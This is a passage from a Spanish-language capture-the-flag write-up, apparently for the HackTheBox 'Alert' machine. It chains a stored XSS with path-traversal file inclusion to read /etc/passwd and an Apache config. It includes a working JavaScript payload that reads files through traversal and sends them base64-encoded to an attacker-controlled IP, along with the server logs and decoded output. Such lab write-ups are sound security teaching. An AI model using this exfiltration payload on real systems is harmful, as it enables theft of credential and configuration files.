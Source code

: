 Modificamos el archivo `.js` para que desde el endpoint descubierto el administrador haga un [Local File Inclusion](../../../../OWASP%20TOP%2010/LFI) y veamos si accedemos al `/etc/passwd`. Volvemos a subir el archivo `.md` si hace falta para poder enviar la URL proporcionada al administrador desde el panel de `Contact Us`.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:54:56] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [27/Oct/2025 12:54:56] "GET /?bs64=PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW4<...>U+Cg== HTTP/1.1" 200 -
```

**Decodificamos** (añadimos una expresión regular para filtrar por las cadenas que contengan `sh` al final):

```bash
echo -n "PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2J<...>mU+Cg==" | base64 -d | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
albert:x:1000:1000:albert:/home/albert:/bin/bash
david:x:1001:1002:,,,:/home/david:/bin/bash
```

Vemos que hay dos usuarios: `albert` y `david`.

Al escanear los servicios con `-sCV` en nmap, vimos que el servidor usaba `Apache`. Sabiendo esto, podemos apuntar a un archivo de configuración por defecto de estos servicios y tratar de listar información confidencial.

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

Repetimos el proceso, obtenemos la respuesta y decodificamos:

```html
<pre>
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
```